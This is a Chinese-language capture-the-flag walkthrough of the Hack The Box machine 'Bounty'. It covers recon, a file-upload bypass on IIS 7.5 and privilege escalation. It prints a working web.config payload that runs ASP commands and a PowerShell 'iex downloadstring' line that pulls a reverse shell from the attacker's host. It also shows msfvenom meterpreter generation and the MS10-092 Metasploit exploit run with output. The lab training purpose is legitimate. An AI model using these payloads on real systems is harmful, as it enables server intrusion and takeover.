





# 信息收集

## Namp

```
root@kali# nmap --min-rate 10000 -p- -Pn 10.10.10.93 -oA scans/ports
...
PORT   STATE SERVICE
80/tcp open  http
...
root@kali# nmap -sT -sC -sV -O -p80 10.10.10.93 -oA scans/details
...
PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 7.5
| http-methods:
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5
|_http-title: Bounty
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
..
```

## 目录FUZZ

**根据Microsoft IIS httpd 7.5知道这是windows server 2008 R2系统，一般都存在aspx动态网页文件…发现了tranfer.aspx**



```
root@kali# gobuster dir -u http://10.10.10.93 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 30 -x aspx                    
...
/transfer.aspx        (Status: 200)
/aspnet_client        (Status: 301) [Size: 156] [--> http://10.10.10.93/aspnet_client/]
/uploadedfiles        (Status: 301) [Size: 156] [--> http://10.10.10.93/uploadedfiles/]
...
```

## WEB服务



查看前端源码没发现什么…

### tranfer.aspx：



`transfer.aspx`是一个文件上传页面,所有成功上传的文件都会到`uploadedfiles`下，不过这个目录下的文件过一段时间（几十秒）就会被删除.



使用BP，截断上传页面信息，**使用intruder，爆破扩展名，发现允许上传的扩展名包括:gif,jpg,png,config。**

在谷歌上搜索**IIS httpd 7.5 upload rce**，可以看看这两篇文章：

[Upload a web.config File for Fun & Profit](https://soroush.me/blog/2014/07/upload-a-web-config-file-for-fun-profit/)

[通过上传 web.config 进行 RCE](https://003random.com/posts/archived/2018/05/22/rce-by-uploading-a-web-config/)

如何简单理解呢？上传 .htaccess 文件以绕过上传文件的保护是一种已知技术，在这里上传web.config的作用和.htaccess类似。有时 IIS 支持 ASP 文件，但无法上传任何扩展名为 .ASP 的文件。在这种情况下，可以直接使用web.config文件来运行ASP经典代码。

> 什么是 web.config 文件？
> 
> web.config 文件是用于配置 ASP.NET 网站或 Web 应用程序的 XML 格式配置文件。它通常位于网站的根目录中，并包含了许多配置设置，例如数据库连接字符串、会话状态配置、身份验证设置、授权规则、错误处理方式以及其他与网站功能相关的设置。通过编辑 web.config 文件，开发人员可以对网站的行为进行广泛的调整和定制，而无需修改源代码。

# 漏洞利用

上传一个web.config文件，在注释里执行asp代码

```
<?xml version="1.0" encoding="UTF-8"?>
<configuration>
   <system.webServer>
      <handlers accessPolicy="Read, Script, Write">
         <add name="web_config" path="*.config" verb="*" modules="IsapiModule" scriptProcessor="%windir%\system32\inetsrv\asp.dll" resourceType="Unspecified" requireAccess="Write" preCondition="bitness64" />
      </handlers>
      <security>
         <requestFiltering>
            <fileExtensions>
               <remove fileExtension=".config" />
            </fileExtensions>
            <hiddenSegments>
               <remove segment="web.config" />
            </hiddenSegments>
         </requestFiltering>
      </security>
   </system.webServer>
   <appSettings>
</appSettings>
</configuration>
<!–-
<% Response.write("-"&"->")
Response.write("<pre>")
Set wShell1 = CreateObject("WScript.Shell")
Set cmd1 = wShell1.Exec("ipconfig")
output1 = cmd1.StdOut.Readall()
set cmd1 = nothing: Set wShell1 = nothing
Response.write(output1)
Response.write("</pre><!-"&"-") %>

-–>
```

上面文件上传以后访问`http://10.10.10.93/uploadedfiles/web.config`成功打印`ipconfig`命令

```
Windows IP Configuration

Ethernet adapter Local Area Connection:

   Connection-specific DNS Suffix  . : 
   IPv4 Address. . . . . . . . . . . : 10.10.10.93
   Subnet Mask . . . . . . . . . . . : 255.255.255.0
   Default Gateway . . . . . . . . . : 10.10.10.2

Tunnel adapter isatap.{27C3F487-28AC-4CE6-AE3A-1F23518EF7A7}:

   Media State . . . . . . . . . . . : Media disconnected
   Connection-specific DNS Suffix  . :
```

## 反弹shell

> PowerShell的反弹shell和Linux中的bash反弹shell有什么区别?
> 
> 1. 语法差异：
>    
>    PowerShell 使用**对象管道（Object Pipeline）来处理数据**，允许将对象传递给命令以及从命令中接收对象。这使得 PowerShell 可以直接处理和操作 .NET 对象。
Bash 则是**基于文本流**的，通常使用管道将文本传递给命令。它处理文本输入和输出，不支持直接操作对象。
> 2. 命令和函数：
PowerShell 提供了大量的命令和函数，可以直接处理对象、操作文件系统、管理进程等。它具有丰富的功能和扩展性。
Bash 也提供了丰富的命令和函数，但相较于 PowerShell，它更专注于文本处理和系统级操作。
> 3. 跨平台性：
PowerShell 最初是为 Windows 平台设计的，虽然在最近的版本中增加了对 Linux 和 macOS 的支持，但它的主要用户群体仍然是 Windows 用户。
Bash 是 Linux 和类 Unix 系统的标准 shell，几乎所有的 Linux 发行版都默认安装了它，因此它在跨平台方面更具优势。

**参考链接:[[Powershell反弹shell](https://www.cnblogs.com/-mo-/p/11487997.html)**]

*<u>Nishanghttps://github.com/samratashok/nishang是一个基于PowerShell的攻击框架，集合了一些PowerShell攻击脚本和有效载荷，可反弹TCP/ UDP/ HTTP/HTTPS/ ICMP等类型shell。</u>*

首先，获取 Nishang 的 [Invoke-PowerShellTcp.ps1](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1) 的副本。然后在末尾添加一行以调用对我的回调。

```
Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.3 -Port 4242
```

把web.config编辑成以下payload

```
<?xml version="1.0" encoding="UTF-8"?>
<configuration>
   <system.webServer>
      <handlers accessPolicy="Read, Script, Write">
         <add name="web_config" path="*.config" verb="*" modules="IsapiModule" scriptProcessor="%windir%\system32\inetsrv\asp.dll" resourceType="Unspecified" requireAccess="Write" preCondition="bitness64" />
      </handlers>
      <security>
         <requestFiltering>
            <fileExtensions>
               <remove fileExtension=".config" />
            </fileExtensions>
            <hiddenSegments>
               <remove segment="web.config" />
            </hiddenSegments>
         </requestFiltering>
      </security>
   </system.webServer>
   <appSettings>
</appSettings>
</configuration>
<!–-
<% Response.write("-"&"->")
Response.write("<pre>")
Set wShell1 = CreateObject("WScript.Shell")
Set cmd1 = wShell1.Exec("cmd.exe /c powershell.exe -c iex(new-object net.webclient).downloadstring('http://10.10.14.3/Invoke-PowerShellTcp.ps1')")
output1 = cmd1.StdOut.Readall()
set cmd1 = nothing: Set wShell1 = nothing
Response.write(output1)
Response.write("</pre><!-"&"-") %>

-–>
```

> cmd.exe /c powershell.exe -c iex(new-object net.webclient).downloadstring('http://10.10.14.3/Invoke-PowerShellTcp.ps1'：
> 
> 1. cmd.exe /c: 这部分启动了 Windows 命令提示符（cmd.exe）并执行 /c 参数指定的命令。/c 参数告诉 cmd.exe 在执行完指定的命令后关闭命令提示符窗口。
> 2. powershell.exe: 这部分启动了 PowerShell 程序。
> 3. -c: 这是 PowerShell 的参数，表示后面跟着的是一条命令。
> 4. iex(new-object net.webclient).downloadstring('http://10.10.14.3/Invoke-PowerShellTcp.ps1'): 这是 PowerShell 命令。iex 是 Invoke-Expression 的简写，它用于执行从字符串中构建的命令。在这个例子中，iex 用于执行从远程服务器下载的 PowerShell 脚本。new-object net.webclient 创建了一个新的 .NET WebClient 对象，然后 downloadstring 方法用于从指定的 URL 下载字符串（即远程脚本的内容）。整个表达式的目的是下载远程脚本内容。
> 5. 'http://10.10.14.3/Invoke-PowerShellTcp.ps1': 这是远程 PowerShell 脚本的 URL 地址，它将被下载并执行。

>    
>    因此，整个命令的作用是从 http://10.10.14.3/Invoke-PowerShellTcp.ps1 下载 PowerShell 脚本并执行它，从而建立到攻击者控制的远程服务器的 TCP 连接，提供一个交互式的 PowerShell shell。

在本地开启一个http服务，准备传送Invoke-PowerShellTcp.ps1

```
python3 -m http.server 80
```

kali开启监听接收反弹shell

```
nc -lnvp 4242
```

上传以后，打开http://10.10.10.93/uploadedfiles/web.config页面，拿到初始shell

```
root@kali# nc -lnvp 4242              
listening on [any] 4242 ...
connect to [10.10.14.3] from (UNKNOWN) [10.10.10.93] 49158
Windows PowerShell running as user BOUNTY$ on BOUNTY
Copyright (C) 2015 Microsoft Corporation. All rights reserved.

PS C:\windows\system32\inetsrv>whoami
bounty\merlin
```

# 提权

webshell不太稳定，我们编译一个稳定的meterpreter

```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.14.3 LPORT=4444 -f exe > shell64.exe
```

在靶机依次执行下面两行代码，把shell下载到靶机

```
$client = new-object System.Net.WebClient
$client.DownloadFile('http://10.10.14.3:8000/shell64.exe', 'C:\users\merlin\Desktop\shell64.exe')
```



参考链接：[PowerShell 语法](https://blog.csdn.net/leoxow/article/details/129426642#:~:text=PowerShell%20%E8%AF%AD%E6%B3%95%201%20%E5%91%BD%E4%BB%A4%E8%AF%AD%E6%B3%95%3A%20%E6%A0%87%E5%87%86%E5%91%BD%E4%BB%A4%E8%AF%AD%E6%B3%95%EF%BC%9A-%EF%BC%88%E5%A6%82%20Get-ChildItem%EF%BC%89%20%E6%B4%BB%E5%8A%A8%E7%9B%AE%E5%BD%95%E5%91%BD%E4%BB%A4%E8%AF%AD%E6%B3%95%EF%BC%9A-%EF%BC%88%E5%A6%82%20Get-ADUser%EF%BC%89,5%20%E6%9D%A1%E4%BB%B6%E8%AF%AD%E5%8F%A5%EF%BC%9A%E4%BD%BF%E7%94%A8if%E3%80%81else%E5%92%8Celseif%E5%85%B3%E9%94%AE%E5%AD%97%E6%89%A7%E8%A1%8C%E6%9D%A1%E4%BB%B6%E8%AF%AD%E5%8F%A5%E3%80%82%206%20%E5%BE%AA%E7%8E%AF%E8%AF%AD%E5%8F%A5%EF%BC%9A%E5%B8%B8%E8%A7%81%E7%9A%84%E5%BE%AA%E7%8E%AF%E8%AF%AD%E5%8F%A5%E6%9C%89for%E3%80%81foreach%E3%80%81while%E3%80%82%207%20%E5%87%BD%E6%95%B0%EF%BC%9A%E4%BD%BF%E7%94%A8function%E5%85%B3%E9%94%AE%E5%AD%97%E5%AE%9A%E4%B9%89%E5%87%BD%E6%95%B0%E3%80%82%208%20%E6%B3%A8%E9%87%8A%EF%BC%9A%E6%B3%A8%E9%87%8A%E4%BB%A5%E4%BA%95%E5%8F%B7%EF%BC%88%23%EF%BC%89%E5%BC%80%E5%A4%B4%E3%80%82)

powershell执行exe文件

```
&"C:\users\merlin\Desktop\shell64.exe"
```

拿到meterpreter以后，把winPEAS.bat 传到靶机，枚举提权漏洞

> WinPEAS.bat 用于搜索在 Windows 主机上提升权限的可能路径。WinPEAS.bat 是为不支持 WinPEAS.exe 的 Windows 系统制作的批处理脚本，需要目标系统（.Net 4）环境，不支持打印输出颜色。如果要搜索可能包含密码的文件和注册表，需要在 WinPEAS.bat 脚本开头的long变量设置为 yes 。
> 
> WinPEAS.bat下载地址：https://www.ddosi.org/peass-ng/#%E2%91%A0WinPEAS%E7%94%A8%E6%B3%95%E5%8F%8A%E8%AF%B4%E6%98%8E
> 
> WinPEAS.bat使用地址：https://cloud.tencent.com/developer/article/2149150

```
"Microsoft Windows Server 2008 R2 Datacenter "                                                                                                                                                                                              
   [i] Possible exploits (https://github.com/codingo/OSCP-2/blob/master/Windows/WinPrivCheck.bat)                                                                                                                                           
MS11-080 patch is NOT installed XP/SP3,2K3/SP3-afd.sys)                                                                                                                                                                                     
MS16-032 patch is NOT installed 2K8/SP1/2,Vista/SP2,7/SP1-secondary logon)                                                                                                                                                                  
MS11-011 patch is NOT installed XP/SP2/3,2K3/SP2,2K8/SP2,Vista/SP1/2,7/SP0-WmiTraceMessageVa)                                                                                                                                               
MS10-59 patch is NOT installed 2K8,Vista,7/SP0-Chimichurri)                                                                                                                                                                                 
MS10-21 patch is NOT installed 2K/SP4,XP/SP2/3,2K3/SP2,2K8/SP2,Vista/SP0/1/2,7/SP0-Win Kernel)                                                                                                                                              
MS10-092 patch is NOT installed 2K8/SP0/1/2,Vista/SP1/2,7/SP0-Task Sched)                                                                                                                                                                   
MS10-073 patch is NOT installed XP/SP2/3,2K3/SP2/2K8/SP2,Vista/SP1/2,7/SP0-Keyboard Layout)                                                                                                                                                 
MS17-017 patch is NOT installed 2K8/SP2,Vista/SP2,7/SP1-Registry Hive Loading)                                                                                                                                                              
MS10-015 patch is NOT installed 2K,XP,2K3,2K8,Vista,7-User Mode to Ring)                                                                                                                                                                    
MS08-025 patch is NOT installed 2K/SP4,XP/SP2,2K3/SP1/2,2K8/SP0,Vista/SP0/1-win32k.sys)                                                                                                                                                     
MS06-049 patch is NOT installed 2K/SP4-ZwQuerySysInfo)                                                                                                                                                                                      
MS06-030 patch is NOT installed 2K,XP/SP2-Mrxsmb.sys)                                                                                                                                                                                       
MS05-055 patch is NOT installed 2K/SP4-APC Data-Free)                                                                                                                                                                                       
MS05-018 patch is NOT installed 2K/SP3/4,XP/SP1/2-CSRSS)                                                                                                                                                                                    
MS04-019 patch is NOT installed 2K/SP2/3/4-Utility Manager)                                                                                                                                                                                 
MS04-011 patch is NOT installed 2K/SP2/3/4,XP/SP0/1-LSASS service BoF)                                                                                                                                                                      
MS04-020 patch is NOT installed 2K/SP4-POSIX)                                                                                                                                                                                               
MS14-040 patch is NOT installed 2K3/SP2,2K8/SP2,Vista/SP2,7/SP1-afd.sys Dangling Pointer)                                                                                                                                                   
MS16-016 patch is NOT installed 2K8/SP1/2,Vista/SP2,7/SP1-WebDAV to Address)                                                                                                                                                                
MS15-051 patch is NOT installed 2K3/SP2,2K8/SP2,Vista/SP2,7/SP1-win32k.sys)                                                                                                                                                                 
MS14-070 patch is NOT installed 2K3/SP2-TCP/IP)                                                                                                                                                                                             
MS13-005 patch is NOT installed Vista,7,8,2008,2008R2,2012,RT-hwnd_broadcast)                                                                                                                                                               
MS13-053 patch is NOT installed 7SP0/SP1_x86-schlamperei)                                                                                                                                                                                   
MS13-081 patch is NOT installed 7SP0/SP1_x86-track_popup_menu)
```

可以看见靶机很多补丁没有安装，逐个枚举，使用MS10-092

```
msf6 exploit(windows/local/ms16_032_secondary_logon_handle_privesc) > search MS10-092

Matching Modules
================

   #  Name                                        Disclosure Date  Rank       Check  Description
   -  ----                                        ---------------  ----       -----  -----------
   0  exploit/windows/local/ms10_092_schelevator  2010-09-13       excellent  Yes    Windows Escalate Task Scheduler XML Privilege Escalation


Interact with a module by name or index. For example info 0, use 0 or use exploit/windows/local/ms10_092_schelevator
```

```
msf6 exploit(windows/local/ms10_092_schelevator) > run

[*] Started reverse TCP handler on 10.10.14.3:4444 
[*] Preparing payload at C:\Windows\TEMP\AoTizOUxSB.exe
[*] Creating task: LXJM4TwyEqICqyv
[*] SUCCESS: The scheduled task "LXJM4TwyEqICqyv" has successfully been created.
[*] SCHELEVATOR
[*] Reading the task file contents from C:\Windows\system32\tasks\LXJM4TwyEqICqyv...
[*] Original CRC32: 0x866f314a
[*] Final CRC32: 0x866f314a
[*] Writing our modified content back...
[*] Validating task: LXJM4TwyEqICqyv
[*] 
[*] Folder: \
[*] TaskName                                 Next Run Time          Status         
[*] ======================================== ====================== ===============
[*] LXJM4TwyEqICqyv                          1/1/2022 5:38:00 AM    Ready          
[*] SCHELEVATOR
[*] Disabling the task...
[*] SUCCESS: The parameters of scheduled task "LXJM4TwyEqICqyv" have been changed.
[*] SCHELEVATOR
[*] Enabling the task...
[*] SUCCESS: The parameters of scheduled task "LXJM4TwyEqICqyv" have been changed.
[*] SCHELEVATOR
[*] Executing the task...
[*] Sending stage (175174 bytes) to 10.10.10.93
[*] SUCCESS: Attempted to run the scheduled task "LXJM4TwyEqICqyv".
[*] SCHELEVATOR
[*] Deleting the task...
[*] Meterpreter session 2 opened (10.10.14.3:4444 -> 10.10.10.93:49175) at 2021-12-20 22:38:40 -0500
[*] SUCCESS: The scheduled task "LXJM4TwyEqICqyv" was successfully deleted.
[*] SCHELEVATOR

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```

已经拿到SYSTEM权限，至此我们可以读取系统内任何文件。

# 总结

本文渗透的是windows主机，nmap扫描出中间件是IIS7.5，通过网页信息知道靶机运行aspx程序

爆破时选择字典指定了扩展名aspx

当得知有一个上传点时，优先需要知道中间件的解析漏洞信息，以及rce利用信息

通过rce得到初始shell

提权的时候，看到初始用户开启了```SeImpersonatePrivilege```,也可以考虑用potato提权

> nishang框架是什么：
> 
> Nishang是一个PowerShell攻击框架，它是PowerShell攻击脚本和有效载荷的一个集合。
> 
> 项目下载地址：https://github.com/samratashok/nishang
> 
> Nishang powershell框架——使用教程：https://blog.csdn.net/weixin_40412037/article/details/115510209

> Windows安全之powershell反弹shell：https://blog.csdn.net/qq1113673178/article/details/123888025